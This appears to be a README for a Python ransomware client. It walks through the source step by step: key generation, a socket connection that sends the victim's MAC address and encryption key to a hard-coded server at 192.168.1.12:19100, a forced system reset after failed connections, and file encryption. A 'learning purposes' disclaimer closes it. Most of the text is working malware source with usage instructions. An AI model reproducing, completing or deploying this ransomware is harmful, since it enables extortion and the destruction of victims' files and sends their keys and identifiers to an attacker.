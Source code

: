 # Client Documentation

This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm. To use the ransomware, first import the necessary modules, including time, system utilities, encryption tools, and socket communication. Then, define the `Ransomware` class, initializing it with the server's host and port. Connect to the server using the `ConnectServer` method, which attempts to establish a connection and sends system information along with an encryption key. Once connected, you can encrypt files using the `Encrypted` method and decrypt them using the `Decrypted` method. Finally, instantiate the `Ransomware` class and execute the ransomware script, ensuring that the server's host and port are configured correctly.

1. **Import the necessary modules**:
   ```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
   ```
This Python module implements a simple ransomware that connects to a server, encrypts files, and decrypts them using the Fernet encryption algorithm.

2. **Class Ransomware**:
    ```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
    ```
- Generate a random encryption key, initialize System object. 
- Create a `socket` for communication and a `Fernet` instance for encryption/decryption.

    ```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
    ```
 - The `ConnectServer` method attempts to connect to the server via the provided IP address and port. If it cannot connect after 3 attempts, the system will reset.

    ```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
    ```
 - The `Encrypted` method encrypts data using the generated private key.
 - The `Decrypted` method decrypts data using the same private key.
    
    ```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
    ```
 - When initializing a `Ransomware` object, you need to provide the IP address (`host`) and port (`port`) of the server you want to connect to.


**Please note**: *This code should only be used for learning purposes. Using it to perform illegal activities (such as cyber attacks) can lead to serious legal consequences. Always comply with legal regulations when using and developing open source code.*